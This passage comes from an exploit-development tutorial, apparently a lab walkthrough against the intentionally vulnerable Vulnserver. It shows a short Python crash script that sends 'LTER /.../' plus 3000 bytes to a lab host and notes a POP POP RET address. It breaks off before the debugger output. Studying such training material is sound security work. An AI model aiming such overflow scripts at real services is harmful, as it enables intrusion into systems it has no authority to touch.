 One thing I learned while going through this process, which took hours, was that we don't necessarily have to take what the fuzzer is giving us. Sometimes if you get an SEH overwrite with the fuzzer, if you decrease the size of your fuzzing string you can turn the overflow into a simple EIP overwrite! I wish I would've known this before, but now I will never forget. 

At least we already know the character restrictions and the alphanumeric encoding research I did while working with the SEH overwrite will come in handy soon. For now, let's lower our fuzzing string to 3000 bytes and try this again.

## A New Crash

Reducing our script payload down to 3000 gives us the following exploit code: 
```python
#!/usr/bin/python

import socket
import os
import sys

#poppopret: 6250172B

host = "192.168.1.201"
port = 9999

buffer = "A" * 3000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

If we use this on Vulnserver, we get the following output from Immunity:
